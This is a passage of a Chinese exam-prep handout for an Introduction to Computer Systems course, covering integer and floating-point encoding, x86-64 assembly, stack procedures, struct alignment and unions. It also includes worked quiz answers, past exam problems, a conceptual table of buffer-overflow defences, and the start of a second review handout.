| 非规格化（exp 全 0） | E = 1 − bias（不是 −bias），M = 0.frac，值 = (−1)^s · 0.frac · 2^(1−bias) |
| 特殊值（exp 全 1） | frac = 0 → ±∞；frac ≠ 0 → NaN |
| 关键边界值 | 最小正非规格化 = 2^(1−bias−n)；最大非规格化 = (1−2^(−n))·2^(1−bias)；最小规格化 = 2^(1−bias)；最大规格化 = (2−2^(−n))·2^(bias) |
| 向偶数舍入 | 恰在两个可表示数中间时，舍入到末位为偶的那个；可能进位改变阶码甚至溢出成 ∞ |
| float 精度边界 | float 有 24 位有效数字：[2^23, 2^24) 内相邻 float 间隔为 1，[2^24, 2^25) 内间隔为 2（所以 2^24+1 是第一个不能精确表示的正整数），[2^25, 2^26) 内间隔为 4，依此类推 |
| 类型转换 | int→float：可能舍入、不会溢出；float→int：可能溢出也可能舍入（向 0）；int→double：精确 |
| 运算性质 | 加法满足交换律、不满足结合律；有 NaN 时任何比较为假；∞+(−∞)=NaN；乘法可能下溢成 0 |
| 位模式比较 | 正浮点按位模式比大小与数值一致；负浮点顺序相反；+0 与 −0 数值相等、位模式不同 |
2.3 机器级编程（第 4–7 讲）#
| 项目 | 规则 |
|---|---|
| 整数参数寄存器 | %rdi %rsi %rdx %rcx %r8 %r9（第 1–6 个），第 7 个起走栈；返回值 %rax |
| 浮点参数/返回 | %xmm0–%xmm7；返回值 %xmm0；整数与浮点参数各自独立编号 |
| 被调用者保存 | %rbx %rbp %r12 %r13 %r14 %r15（+ %rsp）；其余为调用者保存（易失） |
| 低位寄存器名 | %rbx→%ebx/%bx/%bl；%rcx→%ecx/%cx/%cl；%rsi→%esi/%si/%sil（64 位寻址用满 64 位名） |
寻址 D(Rb,Ri,s) | 地址 = Rb + Ri×s + D，比例 s ∈ {1,2,4,8}。lea 只算地址不访存、不改条件码 |
| 条件码 | cmp S,D 按 D−S 设置；只设条件码不改寄存器的是 cmp/test；lea、inc、dec 不改 CF |
| 跳转条件 | jg：~(SF^OF)&~ZF（有符号 >）；jl：SF^OF；ja/jb：无符号，看 CF/ZF |
| set/cmov | setl 在 D<S 置 1；cmov 无单字节版、两分支都会算（有副作用/除零时不能用） |
| 跳转偏移 | 相对下一条指令地址；rel32 按小端存放 |
| 数组地址 | T A[R][C]：&A[i][j] = A + (C·i + j)·sizeof(T)；多级数组 T* A[]：需两次访存 |
| 对齐 | 每个基本类型按自身大小 K 对齐；结构体整体 K=最大成员对齐；sizeof 补齐到 K 的倍数 |
| 最省空间 | 结构体成员按对齐要求从大到小排列，填充最少 |
| union | 大小 = 最大成员（再按对齐取整）；各成员重叠 |
★ 考场速记口诀
整数：混合比较转无符号；TMin 取负还是它；右移负奇数差 1。
浮点：非规格化 E=1−bias；中间向偶舍入；NaN 比较全假；结合律不成立。
汇编：cmp 算 D−S；lea 不访存不改码；参数 di si dx cx r8 r9；bx bp r12-15 要保存。
对齐：各按自身大小，整体补到最大；省空间从大到小排。
第三部分 分讲解题模板与陷阱#
这一部分按讲次组织。每讲先说明这一讲的题目通常长什么样，再对每类题型讲清楚“为什么这样做”和“具体怎么做”，并配一道尽量完整演算的例题（多取自 2025 年阶段测验原题），最后用一个方框列出这一讲最容易丢分的地方。建议用法是：先读方法和例题，再遮住答案自己做一遍，做对后再看陷阱方框查漏。
3.1 第 2 讲：整数#
第 2 讲的题目几乎都围绕同一件事：同一串二进制位，在不同类型下会被解释成不同的数。有符号数按补码解释，无符号数按普通二进制解释；类型转换时位模式往往不变，变的只是“怎么读”这串位；而扩展和截断则会真正地增减位。只要每一步都想清楚“现在的位是什么、正按哪种类型解释”，这一讲就不会错。常见题型有三类：恒真判断、转换与截断、字节序。
题型 A：恒真判断。题目给一个含 int、unsigned 的 C 表达式，问是否对所有取值都成立，不成立要举反例。第一步永远是看表达式里有没有 unsigned 参与：C 规定二元运算中只要有一个操作数是 unsigned，另一个同宽度的有符号数就会被转成 unsigned，整个比较按无符号进行——这一步看漏后面就全错。第二步是拿几个“边界值”去试：TMin、−1、0、TMax，以及让乘法或加法刚好溢出的数。大多数“看起来成立”的整数式子，恰恰在这些边界上失效，找到一个反例即可判“否”。下面几条是历年反复出现的结论，记住能省很多时间：
| 表达式（x、y 为 int） | 是否恒真 | 原因 / 反例 |
|---|---|---|
(x>=0) || (3*x<0) | 否 | x = 0xC0000000 时，3x 溢出后变成正数，两边都不成立 |
(x>=0) || (x < (unsigned)x) | 否 | x = −1 时右边也不成立 |
x < 0 推出 -x > 0 | 否 | x = TMin 时 −x 仍是 TMin，是负数 |
x < y 推出 -x > -y | 否 | 取负可能溢出（TMin） |
((x>>1)<<1) <= x | 是 | 右移再左移等于清掉最低位，结果必然不大于 x |
(x>>31) == 1（x<0 时） | 否 | 算术右移补符号位，得到的是全 1（即 −1），不是 1 |
题型 B：转换与截断。给 (int)short、char y = x 这类代码，问结果或某个字节。只要守住一条规则：先按原类型改变大小，再改变有无符号。有符号数变宽是符号扩展（高位补符号位），无符号数变宽是零扩展（高位补 0），变窄则直接丢掉高位、可能因此变号。需要“第几字节”时，先把完整结果写成十六进制，再数到对应的两位。以 2025 年第 3 题为例：short y = −12; int iy = (int)y;，−12 的 16 位补码是 0xFFF4，符号扩展成 32 位得 iy = 0xFFFFFFF4；题目问“首字节”，指最高位那一字节（十六进制最左两位），答案是 0xFF；若问最低字节则是 0xF4。答题前务必看清问的是哪一端。
题型 C：字节序。x86-64 是小端：一个多字节整数在内存里，低位字节放在低地址。所以把一个 int 写进内存时要把它的四个十六进制字节倒过来排；反过来，从内存里按小端读出一个数时，也要把低地址的字节当低位拼。要特别区分的是：字符串和数组是按下标顺序逐元素存放的，根本不存在字节序问题，只有把若干字节拼成一个整数时才谈大小端。
⚠ 第 2 讲最容易丢分的地方
sizeof 的类型是无符号的 size_t。像 for (i = sizeof(a); i − 1 >= 0; i−−) 这种循环，因为 i 是无符号，>= 0 恒成立，会一直循环下去。
−10 与 10U 比较时，−10 被转成一个很大的无符号数，于是 −10 > 10U（2025 第 2 题答案“大于”）。
在 C90、32 位环境下，2147483648 超出 int 范围，被当作 unsigned，于是 −2147483648 < 2147483647 的结果是“假”。
short、char 参与运算前会先整型提升为 int；short 转 unsigned 时先按 short 做符号扩展，若最高位是 1 会补成一串 1。
3.2 第 3 讲：浮点#
第 3 讲几乎每年都考一道“自定义位宽的浮点数”大题，把 IEEE 754 的格式换成 1 位符号、k 位阶码、n 位尾数，让你在位模式和数值之间来回换算。只要把编码和解码的流程走熟，再记住几个边界值的公式，这道大题就是稳拿的分。此外还有舍入题和一组 int/float/double 的恒真判断。
题型 A：编码与解码。这是核心，流程是固定的四步。第一步，算偏置 bias = 2^(k−1) − 1。第二步，看阶码字段 exp：若 exp 全为 0，是非规格化数，此时阶数 E = 1 − bias、尾数 M = 0.frac；若 exp 全为 1，表示 ±∞（frac 为 0）或 NaN（frac 非 0）；其余情况是规格化数，E = exp − bias、M = 1.frac。第三步，解码就代入“值 = (−1)^s · M · 2^E”；编码则先判断目标数落在非规格化区还是规格化区（与最小规格化数 2^(1−bias) 比较），再定出 exp 和 frac——落在非规格化区时 frac = 目标值 / 2^(1−bias−n)。第四步，若题目问“最大非规格化数 / 最小规格化数 / 最大规格化数”，直接套第二部分 2.2 节的边界公式即可，不必逐位去凑。
举一个完整例子（1 位符号、3 位阶码、4 位尾数，bias = 3）。解码 0xBD：位模式是 1 011 1101，符号 s = 1，exp = 011 = 3 属于规格化，E = 3 − 3 = 0，M = 1.1101₂ = 1.8125，所以值为 −1.8125。编码 9/64：9/64 = 0.140625，小于最小规格化数 2^(1−3) = 0.25，所以是非规格化数，frac = (9/64) / 2^(1−3−4) = (9/64) / (1/64) = 9，写成 4 位是 1001，于是位模式为 0 000 1001，即 0x09。
题型 B：舍入。IEEE 的默认舍入是“向偶数舍入”：当一个数恰好落在两个可表示数的正中间时，就舍入到尾数末位为偶的那一个；不在正中间则就近。要当心舍入进位：尾数进位可能抬高阶码，甚至把一个接近最大值的数舍成 ∞。精度边界题（如 (int)(float)a − a、for(float f=1;;f++) if(f+1−f!=1)）的关键，是记住 float 只有 24 位有效数字：在 [2²³, 2²⁴) 内相邻 float 间隔为 1，到 [2²⁴, 2²⁵) 间隔变成 2，[2²⁵, 2²⁶) 间隔变成 4，以此类推。所以 2²⁴+1 是第一个无法精确表示的正整数；而 a = 2²⁵+10 落在间隔为 4 的区间里、恰好距两个可表示数各 2，于是向偶数舍入。
题型 C：int / float / double 恒真判断。思路和第 2 讲类似，但要换成浮点的脾气。int 转 double 是精确的（double 有 52 位尾数，装得下 32 位整数），所以三个 int 转成 double 后相加满足结合律；但三个 float 相加就不满足结合律了。有 NaN 时任何比较都为假；∞ 参与运算可能得到 NaN；乘法可能下溢成 0。按这些性质逐条判断即可。
⚠ 第 3 讲最容易丢分的地方
非规格化数的阶数是 E = 1 − bias，不是 −bias——这是最常错的一点。
float → int 既可能溢出又可能舍入；int → float 只会舍入、不会溢出；int → double 精确。
浮点加法满足交换律但不满足结合律；(a+b)+c 与 a+(b+c) 对 float 不一定相等。
有 NaN 时比较一律为假；+0 与 −0 数值相等但位模式不同；统计“能表示多少个实数”时，阶码全 1 的位模式（∞/NaN）不计入。
3.3 第 4 讲：机器级编程基础#
第 4 讲考的是读汇编的基本功：寄存器怎么命名、操作数怎么寻址、各条指令做什么。题目多是小而确定的填空，把下面三类练熟基本能全对。
题型 A：寄存器名与操作数宽度。同一个 64 位寄存器的不同宽度有不同名字，要记牢三条链：rbx → ebx → bx → bl，rcx → ecx → cx → cl，rsi → esi → si → sil。指令后缀 b/w/l/q 分别对应 1/2/4/8 字节，必须和寄存器宽度一致（比如 movl 不能配 %rax）。2025 年第 7 题就是直接问 rbx 的低 32 位名（ebx）和 rcx 的最低字节名（cl）。
题型 B：寻址计算。内存操作数的一般形式是 D(Rb, Ri, s)，代表的地址是 Rb + Ri×s + D，其中比例 s 只能取 1、2、4、8。照着公式代入即可。以 2025 年第 9 题为例，已知 rdx = 0xc000、rcx = 0x0200：0x10(%rdx,%rcx,4) = 0xc000 + 0x0200×4 + 0x10 = 0xc000 + 0x800 + 0x10 = 0xC810；0x30(,%rdx,8) 没有基址寄存器，= 0xc000×8 + 0x30 = 0x60000 + 0x30 = 0x60030。
题型 C：访问次数统计。给几行汇编，数“寄存器访问”和“内存访问”各多少次。规则很直接：每出现一个寄存器操作数算一次寄存器访问，每出现一个带括号 (...) 的内存操作数算一次内存访问，取指令本身不计。例如 movq %rax, %rbx 是两次寄存器访问、零次内存访问。
⚠ 第 4 讲最容易丢分的地方
不能内存到内存；立即数不能作目的操作数；寻址的比例因子只能是 1、2、4、8。
lea 只计算地址、不访问内存、也不改变条件码，常被用来算 x + 常数 或乘以小常数。
写 32 位寄存器（如 movl 到 %eax）会把对应 64 位寄存器的高 32 位清零；movabsq 只能以寄存器为目的。
3.4 第 5 讲：机器级控制#
第 5 讲讲的是程序怎么“拐弯”：条件码怎么产生、怎么据此跳转或条件传送、循环和 switch 在汇编里长什么样。这是分值最高的一讲，务必把下面四类题练到能快速反应。
题型 A：等价指令与补全。cmp S, D 和 sub 做同样的减法 D − S，区别只是 cmp 不保存结果（2025 第 10 题：cmpq %rbx,%rax 等效于 subq，testq 等效于 andq）。由 setX / jX 反推条件时记住方向：setle 在 D ≤ S 时置 1，jg 对应有符号的大于。movzbl 的含义是取 1 个字节、零扩展到 32 位，并且会把目的寄存器的高 32 位一并清零。
题型 B：循环逆向。把一段汇编翻译回 C 的循环。步骤是：先认出初始化（如 movl $0），再认出 -Og 常见的“先跳到中间做测试”的结构（开头一句 jmp .L2），然后把循环体逐句译回 C，最后组装成 for(初始化; 测试; 更新)。以 2025 第 13 题为例，从 salq %cl,%rdx（mask 左移 n 位）、testq %rdx,%rdx（判断 mask 是否为 0）、orq（result 累加）这几句，可还原出 result = 0; for (mask = 1; mask != 0; mask = mask << n) result |= x & mask;。
题型 C：switch 跳转表。先看开头的 sub $k 和 cmp $m; ja 确定 case 的起点和范围；跳转表里凡是指向 default 标号的表项，对应的 case 就是“缺失”的；若干个下标指向同一个标号，说明这些 case 合并了；某个分支末尾没有 jmp、直接落到下一段代码，就是 fall-through。2025 第 14 题只需读一步：jmp *.L1(,%rdi,8) 中 rdi = 2，就跳到跳转表的第 3 项 .L13。
⚠ 第 5 讲最容易丢分的地方
判断有符号数的大小不能只看 SF 和 ZF，还要用 OF（jg 的条件是 ~(SF^OF) & ~ZF）。
cmov 会把两个分支的值都先算出来，所以当某个分支有副作用（比如解引用一个可能为空的指针）或会除零时，编译器不能用 cmov。
跳转的偏移是相对“下一条指令”的地址算的；负偏移按补码、以小端字节序存放。
rep; ret 里的 rep 没有实际作用，是为绕开某些 AMD 处理器的分支预测问题而写的老习惯。
3.5 第 6 讲：机器级过程#
第 6 讲讲函数调用：栈怎么用、参数和返回值放哪、哪些寄存器要保存、递归怎么在栈上展开。题目常要求跟踪 call/ret 前后栈和 %rsp 的变化，或判断某个变量存在哪里。
题型 A：跟踪 call / ret / push / pop。把四条规则记死：push 先让 %rsp 减 8、再写入；pop 先读出、再让 %rsp 加 8；call 把“下一条指令”的地址压栈（%rsp 减 8）后跳转；ret 从栈顶弹出地址（%rsp 加 8）并跳过去。以 2025 第 16 题为例，执行 callq 前 %rsp = 0x110，执行后 %rsp 减 8 变成 0x108，栈顶存的是 callq 的下一条指令地址 0x400649；等 mult2 里的 retq 执行完，%rsp 又加 8 回到 0x110。
题型 B：变量在寄存器还是内存。先按参数顺序 rdi、rsi、rdx…把形参对上寄存器。局部变量什么时候必须放内存？只有三种情况：对它取了地址（&）、它是数组或结构体、或寄存器不够用；否则它就待在寄存器里。2025 第 17 题即考这点：bit_not1(v0) 是按值传入，v0 可以在寄存器；bit_not2(&v1) 对 v1 取了地址，v1 就必须放在内存里。
题型 C：-O0 递归与填栈内容（往年大题）。-O0 的栈帧框架是固定的：push %rbp; mov %rsp,%rbp; sub $N,%rsp，参数和局部变量存在相对 %rbp 的负偏移处。填栈时从高地址往低地址依次是：返回地址、保存的旧 %rbp（它的值等于上一层栈帧的 %rbp）、保存的被调用者寄存器、局部变量与参数副本，下一层调用再重复这套结构。递归就是同样大小的栈帧一层层叠起来。
⚠ 第 6 讲最容易丢分的地方
call 压入的是“下一条”指令的地址，不是 call 指令自己的地址。
调用之后，%rdi、%rsi 等易失（调用者保存）寄存器可能已被改写；要跨调用保留的值应放进被调用者保存寄存器（%rbx、%rbp、%r12–%r15），并在用之前先 push、返回前 pop。
“被调用者保存”的意思是由被调用者负责 push/pop，不是“让调用者去保存它”。
若把 mult2(x,y) 改成 mult2(y,x)，由于参数次序变了，要在 call 之前交换 %rdi 和 %rsi 的内容。
第 7 个及以后的参数走栈传递；在被调用者入口处 (%rsp) 是返回地址，第 7 个参数在 8(%rsp)。
3.6 第 7 讲：机器级数据#
第 7 讲讲数组、结构体和浮点数据在内存里的布局，以及它们的地址怎么算。这一讲分值仅次于第 5 讲，而且结构体对齐几乎是必考点。常见题型有五类。
题型 A：数组地址补全。二维数组 T A[R][C] 的元素地址公式是 A + (C·i + j)·sizeof(T)，编译器常用 lea 把系数凑出来。2025 第 18 题 int arr[4][4] 的 get_digit(x,y) = arr[x][y]：每行是 4 个 int 共 16 字节，所以先 shlq $4,%rdi（算 x×16），再 movl arr(%rdi,%rsi,4),%eax（加上 y×4 并取值）。
题型 B：变长数组传参。当 int a[n][n] 的 n 是变量时，行宽 4n 只能在运行时算，所以代码里一定会出现乘法指令 imulq。2025 第 19 题 var_ele 正是如此：imulq %rdi,%rax（算 n×i）、addq %rcx（加 j）、movl (%rsi,%rax,4)（取元素）。
题型 C：嵌套数组与多级数组的输出。嵌套数组 pgh[4][5] 是连续存放的，一维下标 k 与二维下标的关系是 k = 5·行 + 列；多级数组 int *univ[3] 是指针数组，访问要两次访存。做这类“算输出”的题，把 linear_zip[k]、pgh[i][j] 等都换算成同一个一维下标再查表，就不会乱。2025 第 20 题的输出是 16。
题型 D：结构体对齐与由偏移反推常量（高频）。正推 sizeof 和各字段偏移时，规则是每个字段按自身类型的对齐要求放置、结构体整体的大小补齐到最大对齐的倍数。反推题则是给出汇编里的字段偏移，列不等式解出未知常量。2025 第 21 题的 setVal 中，movslq 8(%rsi) 说明字段 t 在偏移 8、addq 32(%rsi) 说明 u 在偏移 32、movq %rax,184(%rdi) 说明 y 在偏移 184；由这三个偏移列出关于 A、B 的约束，解得 A = 9、B = 5（解唯一，已验证）。
题型 E：SSE 浮点变量归属。关键是先分清谁是指针、谁才是浮点值：指针（哪怕是 double*）属于整数，走 %rdi、%rsi…；只有 float、double 本身才走 %xmm0、%xmm1…，两类参数各自从 0 开始编号。2025 第 22 题 mix_compute(long *a, double *b, float c) 里，a 和 b 都是指针，分别在 %rdi、%rsi（代码用 movsd (%rsi),%xmm1 取 *b）；c 是唯一的浮点参数，在 %xmm0；返回值 result 也在 %xmm0。
⚠ 第 7 讲最容易丢分的地方
结构体的 sizeof 要补齐到最大对齐的倍数，不是各字段大小之和；结构体数组的步长等于 sizeof（含填充）。
想让结构体最省空间，应把字段按对齐要求从大到小排列，而不是按占用大小。
&s.b − &s.a 是指针差，结果要除以元素大小，不是字节数。
声明的 sizeof 要区分：int *p[4] 是指针数组（sizeof 32），int (*q)[4] 是数组指针（sizeof 8）。
int 类型的下标参与地址计算前，要先 movslq 符号扩展到 64 位。
3.7 第 8 讲：高级主题#
第 8 讲在阶段考里考得浅，主要是两个点：用联合（union）观察字节序，以及缓冲区溢出的几种防御手段的对比。
题型 A：用 union 看字节序。union 的各个成员共用同一块内存、大小取最大的成员。把字节按下标填好之后，大端机上一个 int 的低地址字节是高位，小端机上反过来。2025 第 23 题在大端机上，把 c[0..7] 填成 C0…C7，则 i[0] = 0xC0C1C2C3、i[1] = 0xC4C5C6C7；换成小端的 x86-64，则是 0xC3C2C1C0 和 0xC7C6C5C4。
题型 B：缓冲区溢出的防御对比。这是一道概念题，记住下面这张表就行——每种防御手段是否需要改源码、是否需要重新编译、是否需要换 CPU 硬件。2025 第 24 题考的就是它。
| 防御手段 | 改源码 | 重新编译 | 换 CPU 硬件 | 原理 |
|---|---|---|---|---|
| 改用 fgets 等限长库函数 | 是 | 是 | 否 | 从源头限制写入长度 |
| 栈地址随机化（ASLR） | 否 | 否 | 否 | 每次运行地址都变，难以预测 |
| 内存“可执行”权限位（NX） | 否 | 否 | 是 | 栈被标记为不可执行 |
| 栈金丝雀（canary） | 否 | 是 | 否 | 返回前检查哨兵值是否被改动 |
⚠ 第 8 讲最容易丢分的地方
union 的大小等于最大成员（再按对齐取整），不是各成员大小之和。
用 union 把一个 float 的位当成 unsigned 读出来（即查看位模式），和 (float) 这种按数值的强制转换是两回事。
字符串和数组按下标存放，没有大小端之分；只有把多个字节拼成一个整数时才谈字节序。
ASLR 和 NX 都不需要改源码、不需要重新编译；金丝雀需要重新编译；NX 需要 CPU 硬件支持。
第四部分 2025 阶段测验答案速查#
把答案一列盖住，自测一遍；每讲题型就是这次最可能重现的形式。（题干见原卷，这里只列题眼与答案。）
4.1 第 2–4 讲#
| 题 | 题眼 | 答案 |
|---|---|---|
| 2-1 | a=10110101→十进制；b=01011100→十六进制；a&b；!!b | 181；0x5C；0x14；0x01 |
| 2-2 | -10 与 10U 比较 | 大于（−10 转无符号成极大数） |
| 2-3 | short y=−12; int iy=(int)y; iy 首字节 | 0xFF（最高字节；iy=0xFFFFFFF4） |
| 3-4 | 单精度 +∞ 编码；0xA1100000 → (s,M,E) | 0x7F800000；s=1,M=1.125,E=−61 |
| 3-5 | 向偶数舍入保留 3 位：101.111100；101.100100 | 110.000；101.100 |
| 3-6 | int→double 表达式恒真 A/B/C/D | 是；是；否；否 |
| 4-7 | rbx 低 32 位名；rcx 最低字节名 | ebx；cl |
| 4-8 | swap 四条 mov 的寄存器访问/内存访问次数 | 8 次寄存器；4 次内存 |
| 4-9 | rdx=0xc000,rcx=0x0200：0x10(%rdx,%rcx,4)；0x30(,%rdx,8) | 0xC810；0x60030 |
4.2 第 5 讲（控制）#
| 题 | 题眼 | 答案 |
|---|---|---|
| 5-10 | cmpq %rbx,%rax→同效只改目的；testq→ | subq %rbx,%rax；andq %rbx,%rax |
| 5-11 | x>y→补全；movzbl 功能；x86-64 隐含操作 | setle %al；取 1 字节零扩展为 32 位存入目的；目的寄存器高 32 位清零 |
| 5-12 | absdiff x<=y 用跳转/用 cmov 补全 | jg .L4 / ret；cmpq %rsi,%rdi |
| 5-12(4) | 何时不宜用 cmov | 要把两种情况都提前算出，增加计算量、可能有副作用 |
| 5-13 | loop 逆向：result 初值/mask 初值/条件/更新/循环体 | 0；1；mask!=0；mask<<n；x&mask |
| 5-14 | rdi=2 时 jmp *.L1(,%rdi,8) 跳到 | .L13（表第 3 项） |
4.3 第 6–8 讲#
| 题 | 题眼 | 答案 |
|---|---|---|
| 6-15 | popq %rbx 三步：从哪读/rsp 怎么变/存到哪 | %rsp；加 8；%rbx |
| 6-16 | callq 前 rsp=0x110：执行后 rsp/栈顶值；retq 后 rsp | 0x108；0x400649；0x110 |
| 6-16(2) | multstore 中 x/y/dest/s 在哪个寄存器 | x:%rdi；y:%rsi；dest:%rdx（随后存入 %rbx 跨 call 保留）；s:%rax |
| 6-16(3) | 什么机制保证 %rbx 跨 call 不被改 | ABI 规定 %rbx 是被调用者保存 |
| 6-16(4) | mult2(x,y) 改 mult2(y,x) 的变化 | call 前交换 %rdi 和 %rsi |
| 6-17 | v0/v1/v2/v3 在寄存器还是内存 | 寄存器；内存（取了 &v1）；寄存器；寄存器 |
| 7-18 | arr[4][4] get_digit 补全 | shlq $4,%rdi；arr(%rdi,%rsi,4) |
| 7-19 | 变长 a[n][n] var_ele 补全 | imulq %rdi,%rax；addq %rcx,%rax |
| 7-20 | 嵌套/多级数组 result 输出 | 16 |
| 7-21 | 由偏移 t@8,u@32,y@184 反推 A、B | A=9；B=5 |
| 7-22 | b(=double*)/c(=float)/result 在哪个寄存器 | %rsi；%xmm0；%xmm0 |
| 8-23 | 大端 union：i[0]、i[1]（c 填 C0..C7） | 0xC0C1C2C3；0xC4C5C6C7 |
| 8-24 | 三种防御：改源码/重新编译/换硬件 | 见第三部分 3.7 对比表 |
第五部分 往年期中代表题精选（加练）#
从 2012–2023 期中里挑出落在本范围、且最可能以类似形式重现的题，按讲次排。难度比 2025 阶段测略高，适合拔高。数值均已核对。
5.1 整数#
| 来源 | 题目与答案 |
|---|---|
| 2023-Q1 | unsigned u=0x7FFFFFFF; int i=0x80000000; short s=0x7FFF; 哪个为真？→ C：(short)i < s+(int)1（(short)i 截断为 0，s+1=32768）。A 错：i 转无符号为 0x80000000 > u。B 错：−i 与 i 位模式同。 |
| 2022-Q1 | int a<0，哪个一定为真？→ D：(a>>1)<0。A 错（a=TMin 时 −a 不>0）；B 错（a=−1 时 ~a=0）；C 错（a=−1 时 a/2=0）。 |
| 2018-Q2 | 小端机 char*s="2018"; short s1=(*(int*)s)>>12; unsigned u1=s1; → u1=0xffff8313。(*(int*)s=0x38313032，>>12=0x38313，截断 short=0x8313 为负，符号扩展为 0xffff8313。) |
| 2012-A3 | int x=0x15213F10>>4; char y=x; unsigned char z=x; printf("%d,%u",y,z) → −15, 241（低字节 0xF1：有符号 −15，无符号 241）。 |
| 2021-Q4 | x=0x2021; y=−x; z=(x/2)−(x>>1)+(y/2)−(y>>1) → 1（x 正时两者相等；y 负奇数时差 1）。 |
5.2 浮点（自定义位宽是重点）#
| 来源 | 题目与答案 |
|---|---|
| 2022-二 | 1/3/4 格式（bias=3）：0xBD→−1.8125；9/64→0x09（非规格化）；unsigned char 0x6E=110 超最大值 15.5→编码 01110000(+∞)；1/4/3 格式比 1/3/4 能表示更多实数（特殊值占的位模式更少）。 |
| 2016-二 | 1/6/5 格式（bias=31）：a=−15.875 舍入进位成 −16=1 100011 00000；c=a·b 溢出→1 111111 00000=−∞（注意符号位 1 是 −∞，课件旁注写 +∞ 有误）。 |
| 2020-二 | union{struct{int x,y;} s; double d;}：x=0,y=−1→d=NaN；y=0x3ff00000→d=1；(int)(float)a−a 对 a=2^25+10..14 → −2,1,0,−1,2（[2^25, 2^26) 内 float 间隔为 4，+10 和 +14 恰在两个可表示数正中间，向偶数舍入）。 |
| 2019-Q3 | for(float f=1;;f++) if(f+1−f!=1) 第一次成立时 f=2^24（从 2^24 起 float 间隔变为 2，f+1 = 2^24+1 被舍入回 2^24）。 |
| 2023-二 | E5M2 下把 −1.25、1.5、1/16、1/32 相加，不同顺序结果不同：最小 1/4、最大 3/8（浮点不满足结合律）。 |
5.3 汇编：控制、过程、数据#
| 来源 | 题目与答案 |
|---|---|
| 2016-Q6 | switch：addq $1,%rdi; cmpq $8; ja .L2，表项 L9,L5,L6,L7,L2,L7,L8,L2,L5 → case 3 和 6 指向 default（缺失）。 |
| 2019-Q6 | cmpq 后 jg 跳转 ⟺ 标志 ~(SF^OF)&~ZF 为 1。 |
| 2019-Q5 | call 后 %rsp=S，第 k(>6) 个参数在 S+8(k−6)（S 处是返回地址）。 |
| 2021-三 | -O0 递归 f(n,m)：m 奇→f(n−1,3m+1)、m 偶→f(n−1,m>>1)，f(7,6)=2。每帧 0x30 字节，返回地址取决于从奇/偶分支调用。 |
| 2023-三 | ncr 递归：push %rbx 保存被调用者寄存器，第一次递归结果暂存 %ebx，最后 add %ebx,%eax；ncr(5,2)=10，ncr(10,3)=120。 |
| 2021-Q1 | union{char x[12]; char*p;} strcpy "I love ICS!" → p=0x492065766f6c2049（前 8 字节按小端拼）。 |
| 2023-Q8 | struct{union{short s1;char c[3];}u; double d; short s2;}：sizeof u=4；&s.s2−&s.u.s1=16/2=8（指针差除以元素大小）。 |
| 2023-Q9 | int (*A[2])[3]：sizeof A + *A + A + *A = 16+8+12+4 = 40。 |
| 2015-三 | IA32 下由偏移反推：str1{short x[A][B]; int y;}、str2{char array[B]; int t; short s[B]; int u;}，t@8,u@28,y@44 → A=3,B=7。 |
⚠ 往年卷中已知的答案/排版问题（别被带偏）
2016 二题 c：1 111111 00000 符号位为 1，应是 −∞，旁注“+∞”有误。
2019 三题 (13)：标准答案 str+M 实为 str+N（汇编 lea 0xa(%rax) = str+10）。
2022-Q5 卷面已注明“答案有问题”：*(int*)(s+2)=0x3531 后 printf("%s") 实际输出 "2015"，无正确选项。
2018-Q3/Q5/Q8 有官方修订（xor 交换应选 B 等）。
第六部分 高频陷阱总清单 + 考前 checklist#
6.1 最容易丢分的 15 个陷阱#
| # | 陷阱 | 正确做法 |
|---|---|---|
| 1 | int 与 unsigned 混算 | 有 unsigned 就整条转无符号；sizeof 是无符号 |
| 2 | TMin 取负 | −TMin = TMin；x<0 推不出 −x>0 |
| 3 | x>>1 当 x/2 | 负奇数差 1；>>31 得 0 或 −1 |
| 4 | 转换顺序 | short→unsigned 先符号扩展再变无符号 |
| 5 | 字符串分大小端 | 数组按下标存，无字节序；多字节整数才有 |
| 6 | 非规格化 E=−bias | 是 1−bias |
| 7 | 浮点结合律 | 加法不满足结合律；有 NaN 比较全假 |
| 8 | float 处处精确 | 2^24+1 已表示不了；向偶数舍入 |
| 9 | 只看 SF/ZF 判大小 | 有符号还要 OF（jg 用 ~(SF^OF)&~ZF） |
| 10 | cmp 方向 | cmp S,D 按 D−S；setl 在 D<S 置 1 |
| 11 | 跳转偏移基准 | 相对下一条指令；负偏移补码小端 |
| 12 | call 压的地址 | 压下一条指令地址 |
| 13 | 结构体 sizeof | 补齐到最大对齐；数组步长含填充 |
| 14 | 指针差 | 要除以元素大小，不是字节数 |
| 15 | 声明 sizeof | int*p[4]=32，int(*q)[4]=8 |
6.2 考前一晚过一遍#
公式默写（第二部分）：补码范围、bias、规格化/非规格化 E 和 M、四个浮点边界值、参数/保存寄存器、寻址公式、对齐规则。
自定义位宽浮点：随便给一个 1/k/n 格式，能从位模式解码、也能把一个数编码，并会算最大非规格化/最小规格化/最大规格化。
汇编逆向三件套：循环（跳到中间测试）、switch（跳转表+缺失 case+fall-through）、-O0 递归填栈内容。
结构体对齐：正推 sizeof 和各偏移；由汇编偏移反推未知常量（像 2025 第 21 题）。
union + 字节序：大端/小端下把字节拼成 int/long。
缓冲区溢出防御对比表（3.7 节）背熟。
6.3 考场策略#
题量大、按讲次分组：先扫一遍把基础填空（2/3/4/8 讲）全拿下，再回头啃第 5/7 讲的大题。
答案要精确：十六进制、寄存器名、地址、指令写清楚（题目说没写 0x、没写 % 不扣分，但别写错值）。
汇编按行给分：每行都写、别空着，部分对也有分。
恒真判断题：判“否”一定要会举反例（TMin/−1/0/溢出边界优先试）。
浮点编解码：先判规格化还是非规格化，再套公式；舍入先定落点再向偶数靠。
时间不够时，优先保证：浮点编解码大题、结构体对齐、循环/过程逆向——分值高且套路固定。
祝考试顺利。各讲的详细推导见 ICS01–ICS08 各讲复习讲义。
—— 阶段测验冲刺复习讲义完 ——
计算机系统导论（ICS）
第 2 次阶段测验 · 冲刺复习讲义
考试范围：第 9–17 讲（处理器体系结构、存储器层次与高速缓存、程序优化、链接、异常控制流）
这份讲义怎么用#
第 2 次阶段测验覆盖的九讲内容跨度很大：从逻辑门、Y86-64 的六个阶段、流水线冒险，到内存条、磁盘、缓存，再到编译器优化、链接器、异常与进程。考试时间有限，题量较大，而 2025 年的同一次测验表明，题目几乎全部出自各讲的小班研讨题，并且多数只要求写出一个数、一行表格，或者用一两句话说清原因。因此这份讲义的目标是把这九讲中“会考、并且容易丢分”的内容集中起来，让你在考前几天里按题型逐个过一遍。
